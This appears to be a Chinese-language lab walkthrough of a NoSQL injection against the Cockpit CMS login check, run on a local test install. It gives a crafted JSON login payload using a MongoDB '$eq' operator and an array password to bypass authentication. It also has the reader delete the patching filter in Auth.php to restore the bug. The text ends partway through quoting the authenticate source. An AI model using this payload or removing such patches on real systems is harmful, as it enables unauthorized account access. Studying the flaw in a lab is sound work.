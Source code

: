 ![1](nosql注入.assets/1.png)





之后访问`http://127.0.0.1:8080/cockpit/install`提示安装完成并给了我们初始进入账号密码admin/admin

访问

```
http://127.0.0.1:8080/cockpit/auth/login?to=/index.php
```

进入登录界面：

![2](nosql注入.assets/2.png)

## /auth/check

打开burpsuite,抓取一个POST包

将POST内容改为：

```
{"auth":{"user":{"$eq":"admin"},"password":[0]},"csrf":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc3JmIjoibG9naW4ifQ.v9zlTboG-wFROPUcWj5kSE07IvKkz0IMjiIU0q9ZLR0"}、
```

得到回显：

![3](nosql注入.assets/3.png)

ps:由于漏洞被修复的原因，你需要进入cockpit/modules/Cockpit/Controller/Auth.php删掉第一个分支过滤：

![4](nosql注入.assets/4.png)

然后我们再来看看位于/cockpit/moudles/Cockpit/module/auth.php的源代码：

```php
<?php
/**
 * This file is part of the Cockpit project.
 *
 * (c) Artur Heinze - 🅰🅶🅴🅽🆃🅴🅹🅾, http://agentejo.com
 *
 * For the full copyright and license information, please view the LICENSE
 * file that was distributed with this source code.
 */

// Auth Api
$this->module('cockpit')->extend([

    'authenticate' => function($data) use($app) {

        $data = array_merge([
            'user'     => '',
            'email'    => '',
            'group'    => '',
            'password' => ''
        ], $data);

        if (!$data['password']) return false;

        $filter = ['active' => true];

        if ($data['email']) {
            $filter['email'] = $data['email'];
        } else {
            $filter['user'] = $data['user'];
```